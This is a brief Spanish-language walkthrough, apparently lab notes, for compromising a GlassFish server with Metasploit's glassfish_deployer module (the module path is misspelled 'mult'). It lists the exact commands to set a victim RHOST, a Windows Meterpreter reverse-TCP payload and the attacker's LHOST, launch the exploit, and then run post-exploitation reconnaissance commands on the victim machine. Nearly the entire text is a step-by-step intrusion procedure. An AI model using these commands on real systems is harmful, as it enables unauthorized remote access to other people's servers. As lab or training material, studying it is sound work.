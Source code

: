 Abrimos primero 'msfconsole'

Seleccionamos el módulo con 'use exploit/mult/http/glassfish_deployer'

Buscamos las opciones con 'show options'

Establecemos la dirección IP de la máquina víctima (RHOST), el tipo de payload que deseas utilizar (PAYLOAD)
y tu propia dirección IP (LHOST) para la conexión inversa:
set RHOST 192.168.1.144
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.143

Ejecutamos el exploit con: 'exploit'

Una vez dentro podemos ejecutar:
-sysinfo: Para obtener información sobre el sistema operativo de la máquina víctima.
-getuid: Para obtener el identificador del usuario actual en la máquina víctima.
-ipconfig: Para obtener información sobre la configuración de red de la máquina víctima(depende del sistema operativo de la víctima).
-ps: Para listar los procesos en ejecución en la máquina víctima.
